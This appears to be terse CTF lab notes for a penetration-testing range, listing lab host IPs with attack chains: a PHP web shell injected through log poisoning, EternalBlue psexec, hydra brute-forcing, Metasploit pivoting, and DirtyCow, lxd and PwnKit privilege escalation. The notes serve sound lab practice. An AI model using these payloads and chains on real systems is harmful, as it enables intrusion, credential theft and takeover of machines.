# penetration_test_guide
CTF Range		
	172.25.20.6	site-editor 1.1.1 → '<?php system($_GET['cmd']); ?>' → path=/var/log/auth.log&cmd
	172.25.30.4	ms17_010_ps
	172.25.30.5	gobuster/dirb cgi_bash
	172.25.20.7	hydra(jason) → ubuntu 18 lxd
Pivoting and Double Pivoting		
	192.168.65.200	hydra(vagrant) → ssh
	192.168.65.210	burpsuite dirtycow
	192.168.5.100	ssh_login(200vagrant) → sessions -u 1 → route add 192.168.5.0/24 1 → portscan → smb_login → smb/psexec
	192.168.35.100	ms17_010_command nbtstat -A 192.168.35.100
	192.168.5.230	portscan → ssh_login(jason) → PwnKit
Active Directory Range		前置smb_login(mulit)
	172.25.170.20	smb_version → smb/ps
	172.25.170.30	nmap445 & hydra → smb/p (nla) → rdesktop
	172.25.170.200	nmap445 & ms17_010_psexec → rdesktop → nbtstat -n
	172.25.170.90	ms17_010_psexec
	172.25.170.70	ms17_010/eternal
OT Range		
	172.25.100.105	nmap(X) → portscan(msfconsole)→ hydra(kevin) → rdesktop
	192.168.110.230	nmap → hydra(kevin) → ssh[sudo -s]
	others : tcpdump tcp port 502 -i eth0 -vv -w /tmp/test.cap	
Binaries & IoT Range Range		
	172.25.120.100	binwalk -e → grep -nir anonymous
	172.25.120.210	 gdb /bin/bash → b main → info registers
	172.25.120.220	
	others : gdb binaries-two → find /bin/bash	
![image](https://github.com/user-attachments/assets/017a1d1b-4e8c-4176-a066-7e951f34ad39)
